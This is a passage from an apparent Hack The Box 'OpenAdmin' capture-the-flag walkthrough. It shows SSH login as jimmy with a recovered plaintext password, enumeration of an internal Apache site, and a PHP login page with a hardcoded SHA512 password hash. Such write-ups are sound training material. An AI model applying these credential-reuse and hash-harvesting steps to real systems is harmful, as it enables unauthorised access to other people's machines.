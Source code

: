 ```
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

The `n1nj4W4rri0R!` password works with user `jimmy` to get an SSH shell:

```
root@kali:~/htb/openadmin# ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 

jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

## Escalating to user joanna

Looking at the Apache2 configuration, I see there's an internal website running on port 52846.

```
$ ls -l /etc/apache2/sites-available/*
-rw-r--r-- 1 root root 6338 Jul 16 18:14 /etc/apache2/sites-available/default-ssl.conf
-rw-r--r-- 1 root root  303 Nov 23 17:13 /etc/apache2/sites-available/internal.conf
-rw-r--r-- 1 root root 1329 Nov 22 14:24 /etc/apache2/sites-available/openadmin.conf

$ cat /etc/apache2/sites-available/internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

The `index.php` file contains the username and SHA512 hash of the password.

```php
<h2>Enter Username and Password</h2>
      <div class = "container form-signin">
        <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2>
          <?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
      </div>
```
